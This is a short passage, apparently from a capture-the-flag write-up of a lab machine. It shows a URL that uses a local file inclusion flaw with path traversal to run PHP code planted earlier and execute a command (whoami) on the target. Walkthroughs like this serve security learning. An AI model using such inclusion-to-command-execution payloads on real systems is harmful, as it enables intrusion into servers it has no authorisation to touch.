 ![view_db](view_db.png)

Now, we can exploit the LFI vulnerability to execute the malicious `php` code stored in the database by using `http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../var/tmp/shiro.php&cmd=whoami`!
